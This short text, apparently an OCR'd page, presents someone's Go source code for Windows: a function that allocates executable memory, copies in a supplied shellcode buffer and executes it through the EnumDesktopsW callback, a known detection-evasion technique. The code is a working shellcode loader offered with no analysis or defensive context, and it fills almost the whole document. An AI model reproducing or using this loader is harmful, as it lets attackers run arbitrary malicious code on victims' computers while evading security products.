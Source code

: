 This is his code:

```go
package TT

import (
	"syscall"
	"time"
	"unsafe"
)

var (
	timer int
)

const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
	CAL_SMONTHNAME1        = 0x00000015
	ENUM_ALL_CALENDARS     = 0xffffffff
	SORT_DEFAULT           = 0x0
)

var (
	kernel32                = syscall.MustLoadDLL("kernel32.dll")
	ntdll                   = syscall.MustLoadDLL("ntdll.dll")
	User32                  = syscall.MustLoadDLL("User32.dll")
	VirtualAlloc            = kernel32.MustFindProc("VirtualAlloc")
	EnumDesktopsW           = User32.MustFindProc("EnumDesktopsW")
	GetProcessWindowStation = User32.MustFindProc("GetProcessWindowStation")
	RtlMoveMemory           = ntdll.MustFindProc("RtlMoveMemory")
)

func Callback(shellcode []byte) {
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	Process, _, _ := GetProcessWindowStation.Call()
	EnumDesktopsW.Call(Process, addr, 0)
	time.Sleep(10000)
}
```

Bye!




